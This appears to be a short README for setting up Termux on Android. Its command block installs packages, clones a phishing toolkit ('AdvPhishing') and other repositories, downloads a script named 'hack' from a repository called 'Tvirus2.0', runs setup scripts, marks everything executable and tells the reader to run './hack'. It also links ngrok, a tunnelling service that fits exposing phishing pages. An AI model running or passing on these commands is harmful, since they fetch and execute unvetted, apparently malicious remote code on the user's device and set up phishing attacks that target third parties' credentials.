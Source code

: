 #Follow This
Vist Ngrok = [Here](ngrok.com)
Download Termux = [Here](https://f-droid.org/repo/com.termux_112.apk)


```
pkg upgrade
pkg install wget
pkg install git
pkg install python
git clone https://github.com/Ignitetch/AdvPhishing
git clone https://github.com/T-Dynamos/Maths_Bot m_bot
git clone https://github.com/Cabbagec/termux-ohmyzsh

wget https://raw.githubusercontent.com/T-Dynamos/Tvirus2.0/main/hack
cd Advphishing
bash Android-Setup.sh
cd
cd termux-ohmyzsh
bash install.sh
cd
chmod +x *
clear
echo Exectue = ./hack
```


